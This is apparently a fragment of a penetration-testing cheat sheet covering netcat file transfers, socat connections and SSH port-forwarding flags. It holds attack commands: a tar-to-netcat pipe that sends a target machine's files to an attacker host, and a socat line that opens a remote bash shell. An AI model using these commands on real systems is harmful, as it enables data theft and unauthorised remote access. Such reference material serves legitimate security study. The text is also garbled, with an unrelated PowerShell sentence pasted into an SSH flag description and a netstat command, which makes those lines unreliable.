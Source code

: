 ```
 \_.=|____E
 
```

#### File transfers
Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```


## Socat 
[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. See the [[Socat-Cheatsheet]]

Socat requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

## SSH
Flags:
```bash
-i      access with private key
-L      local_port:remote_address:remote_port # for local portation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to fowarding
-R      port:loca_address:local_port # For remote port forwarding 
-D      local_PORT # Dynamic port fowarding, creates sockets proxy on localhost
-N      Do not execute a remote command. Useful in for just forwardin ports
-p      port
```
Kali Config
`/etc/ssh/ssh_config`

ssh Server:
```bash
netstat -antp | grep sshdation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to
systemctl enable ssh
systemctl disable ssh
```

